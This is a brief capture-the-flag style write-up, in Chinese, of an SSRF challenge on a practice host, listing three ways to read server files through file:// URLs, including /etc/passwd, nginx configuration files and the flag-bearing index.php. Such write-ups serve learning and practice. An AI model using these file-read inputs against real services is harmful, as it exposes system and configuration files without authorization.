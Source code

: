 ## SSRF Flie Access
http://ssrf.orange.tw:81/ 存在URL解析漏洞，可以使用`file://`協議
### 方法1 
`file:///etc/passwd`發現使用者nginx

`file:///etc/nginx/nginx.conf`查看conf

`file:///etc/nginx/sites-enabled/default.conf`找到web root

`file:///www/index.php`取得flag
### 方法2
`file:///proc/self/cwd/index.php`
### 方法3
`file://index.php`
